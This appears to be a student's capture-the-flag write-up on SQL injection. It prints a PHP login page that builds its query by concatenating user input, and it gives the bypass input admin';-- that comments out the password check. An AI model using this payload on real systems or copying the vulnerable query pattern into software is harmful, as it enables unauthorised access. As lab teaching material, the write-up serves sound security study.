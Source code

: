 # CTF 8 - SQL Injection

In this CTF, we were presented to a Website that gives the php file to the user everytime he tries to enter the website (This source code is in the appendix of this document). The website looks like this:

<div align="center">
  <img src="images/CTF8/sql_website.png" alt="Form2" width="50%">
</div>




The most important part of the document is this:

```php
<?php
    if (!empty($_POST)) {

        require_once 'config.php';

        $username = $_POST['username'];
        $password = $_POST['password'];
               
        $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                                     
        if ($result = $conn->query($query)) {
                                  
            while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
                $_SESSION['username'] = $data['username'];
           
                echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
                include "/flag.txt";
                echo "</code>";

            }
        } else {            
            // falhou o login
            echo "<p>Invalid username or password <a href=\"index.php\">Tente novamente</a></p>";
        }
    }
?>
```

## Questions

### Q1. Which SQL Query is executed everytime a user tries to login?

Considering that the user is not an attacker, a normal query to a normal input from a user would look like this:

```sql
SELECT username FROM user WHERE username = '<username>' AND password = '<password>'
```

### Q2. Which inputs you can manipulate to encroach the query? Which Special Characters you use and why?

For this exploit, the most important keywords that we might have in mind are:

* `;`: This character is important because it represents the end of an sql statement

* `--`: These two characters together are the declaration of the beggining of a comment in SQL.

### Q3. Which SQL query is effectively executed with your malicious login attempt? Why does this query allow you to login?

To have a successful malicious login attempt, we can use the following input

* Username: `admin';--`
* Password : `Anything that is not empty`

The actual query that is done is this one:

```sql
SELECT username FROM user WHERE username = 'admin'; -- AND password = '".$password."'";
```

Which is semanticaly equivelant to this:

```sql
SELECT username FROM user WHERE username = 'admin';
```

which do not require the password to enter into the system.
